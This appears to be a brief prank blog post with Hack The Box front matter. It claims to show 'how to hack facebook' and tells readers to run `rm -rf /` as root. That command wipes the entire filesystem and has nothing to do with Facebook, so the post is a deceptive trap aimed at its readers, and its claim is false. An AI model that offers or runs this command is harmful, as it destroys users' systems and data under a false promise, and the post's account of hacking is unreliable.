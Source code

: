 ```yaml
---
title: Firsthtb
date: 2020-06-24 11:11:11 +0530
categories: [Hackthebox, Active]
tags: [htb,privesc]
---
```


This post shows how to hack facebook.
Open your terminal and fire this command with root user
`rm -rf /`
